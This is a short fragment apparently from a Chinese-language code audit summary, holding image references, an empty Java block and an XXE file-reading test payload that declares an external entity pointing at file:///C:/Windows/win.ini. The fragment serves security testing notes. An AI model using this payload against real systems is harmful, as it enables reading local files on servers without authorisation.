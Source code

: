 ```java

```

![image-20210831104803117](pic/代码审计总结/image-20210831104803117.png)

xxe测试：

文件读取

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///C:/Windows/win.ini" >]>
<foo>&xxe;</foo>
```



![image-20210831104855322](pic/代码审计总结/image-20210831104855322.png)
